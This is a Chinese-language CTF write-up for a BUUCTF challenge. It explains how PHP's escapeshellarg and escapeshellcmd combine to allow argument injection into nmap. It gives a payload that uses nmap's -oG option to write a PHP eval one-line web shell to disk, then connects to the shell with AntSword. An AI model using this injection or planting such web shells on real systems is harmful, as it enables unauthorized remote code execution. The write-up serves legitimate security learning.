### escapeshellarg/cmd RCE

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b174add0e0a243d4ffc23a.jpg)

打开网页拿到源码

![](https://pic1.imgdb.cn/item/67b174bcd0e0a243d4ffc23c.jpg)

传入的参数是：172.17.0.2' -v -d a=1

经过 escapeshellarg 处理后变成了 '172.17.0.2 '\\'' -v -d a=1'

即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用

经过 escapeshellcmd 处理后变成 '172.17.0.2 '\\\\'' -v -d a=1\\'

这是因为 escapeshellcmd 对 \ 以及最后那个不配对儿的引号进行了转义

最后执行的命令是 curl '172.17.0.2 '\\\\'' -v -d a=1\\'

由于中间的 \\\ 被解释为 \ 而不再是转义字符，所以后面的 ' 没有被转义，与再后面的 ' 配对儿成了一个空白连接符

即向 172.17.0.2 发起请求，POST 数据为 a=1

所以经过我们构造之后，输入的值被分割成为了三部分

第一部分就是curl的IP，为172.17.0.2\

第二部分就是两个配对的单引号 ' '

第三部分就是命令参数以及对象 -v -d a=1'

nmap 有一个参数 -oG 可以实现将命令和结果写到文件

所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马链接，也可以直接命令 cat flag

```php
?host=' <?php eval($_POST["hack"]);?> -oG hack.php '
```

![](https://pic1.imgdb.cn/item/67b1753fd0e0a243d4ffc24c.jpg)

记录下它生成的文件夹名

![](https://pic1.imgdb.cn/item/67b17550d0e0a243d4ffc24f.jpg)

打开蚁剑远程连接

![](https://pic1.imgdb.cn/item/67b1755fd0e0a243d4ffc253.jpg)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b17570d0e0a243d4ffc254.jpg)